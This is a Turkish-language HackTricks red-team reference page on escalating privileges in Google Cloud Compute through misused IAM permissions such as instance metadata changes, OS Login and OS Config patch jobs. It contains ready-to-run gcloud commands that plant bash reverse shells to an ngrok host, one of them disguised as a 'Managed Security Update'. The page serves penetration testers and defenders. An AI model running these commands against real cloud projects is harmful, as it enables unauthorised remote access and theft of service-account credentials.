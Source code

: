 # GCP - Hesap Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Compute

Compute ve VPC (ağ) hakkında daha fazla bilgi için GCP'de şu bağlantıya göz atın:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Metadata'yı değiştirmeyi gerektiren tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için **önceden ekli olan SA üzerinde `actAs` izinlerine sahip olmanız gerektiğini** unutmayın!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle bir **örneğin metadata** bilgisini **değiştirebilir** ve **bir kullanıcının yetkili anahtarlarını değiştirebilir** veya **sudo yetkilerine sahip yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH üzerinden erişebilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* VM örneklerinde çalışan GCP Hizmet Hesapları varsayılan olarak **çok sınırlı bir kapsama sahiptir**
* Giriş yapabilmek için **SSH sunucusuna ulaşabilmelisiniz**

Bu izni nasıl sömürüleceği hakkında daha fazla bilgi için şu bağlantıya göz atın:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Bu saldırıyı yeni bir başlangıç betiği ekleyerek ve örneği yeniden başlatarak da gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, bir bütün proje yerine belirli örnekler üzerinde aynı ayrıcalıkları verir. Önceki bölüm için aynı zafiyetler ve kısıtlamalar geçerlidir.

### `compute.instances.setIamPolicy`

Bu tür bir izin size önceki izinlerle bir rol vermenize ve bunları kötüye kullanarak ayrıcalıkları yükseltmenize olanak tanır.

### **`compute.instances.osLogin`**

Eğer örnekte **OSLogin etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örneğin içinde **root ayrıcalıklarınız olmayacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde oturum açabilmek için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer örnekte **OSLogin etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örneğin içinde **root ayrıcalıklarınız olacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde oturum açabilmek için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Atanan bir Hizmet Hesabı ile bir sanal makine oluşturmak ve ayrıcalıkları yükseltmek için hizmet hesabının belirteci çalınabilir.

Bu yöntemin zafiyet betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinlerine sahipseniz bir [**yama işlemi veya dağıtımı**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, çevrede yatay hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütmenizi sağlar.

Şu anda örneğe bağlı SA üzerinde **`astAs` iznine ihtiyacınız olmadığını** unutmayın.

Bu zafiyeti manuel olarak sömürmek istiyorsanız ya bir [**yama işlemi**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) oluşturun **veya** [**dağıtım**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Yama işlemi için şunu çalıştırın:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Yama dağıtımı yapmak için:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
**Geçmişte bu yanlış yapılandırmayı sömürmek için** [patchy](https://github.com/rek7/patchy) aracı kullanılmış olabilir (ancak artık çalışmıyor).

**Bir saldırgan bunu kalıcılık için de kötüye kullanabilir.**

### `compute.machineImages.setIamPolicy`

Bilgisayarı Görüntüye ekstra izinler verin.

### `compute.snapshots.setIamPolicy`

Bir disk anlık görüntüsüne ekstra izinler verin.

### `compute.disks.setIamPolicy`

Bir diske ekstra izinler verin.

### Erişim Kapsamlarını Atlatma

Bu bağlantıyı takip ederek [**erişim kapsamlarını atlamak için denenebilecek bazı fikirler**](../) bulabilirsiniz.

### GCP Compute Örneğinde Yerel Yetki Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
